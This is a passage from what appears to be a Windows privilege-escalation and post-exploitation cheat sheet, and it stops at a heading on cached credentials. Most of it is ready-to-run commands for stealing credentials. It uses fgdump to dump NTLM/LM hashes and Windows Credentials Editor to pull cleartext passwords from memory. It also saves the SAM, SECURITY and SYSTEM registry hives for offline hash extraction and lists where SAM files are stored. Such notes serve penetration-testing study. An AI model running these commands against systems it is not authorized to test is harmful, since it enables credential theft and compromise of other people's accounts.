 * **Any Apache web logs**
```
dir /s access.log error.log
```
```
Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue
```

## Hashes

### fgdump.exe

We can use `fgdump.exe` (`locate fgdump.exe` on kali) to extract NTLM and LM Password hashes. A file called `127.0.0.1.pwndump` where the hash is saved.

### Windows Credencial Editor (WCE)

WCE can steal NTLM passwords from memory in cleartext! There are different versions of WCE, one for 32 bit systems and one for 64 bit. So make sure you have the right one.

You can run it like this:
```
wce32.exe
wce32.exe -w
wce32.exe -l
```

## Hives

### Loot hives without tools

This might be a better technique than using tools like `wce` and `fgdump`, since you don't have to upload any binaries. Get the registry:
```
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```

The hashes can be extracted using `secretdump.py` or `pwdump`.

Locations where `SAM` and `SYSTEM` can be found:
```
Systemroot can be windows
%SYSTEMROOT%\repair\SAM
windows\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM

System file can be found here
SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\RegBack\system
```

### Dump cached credentials
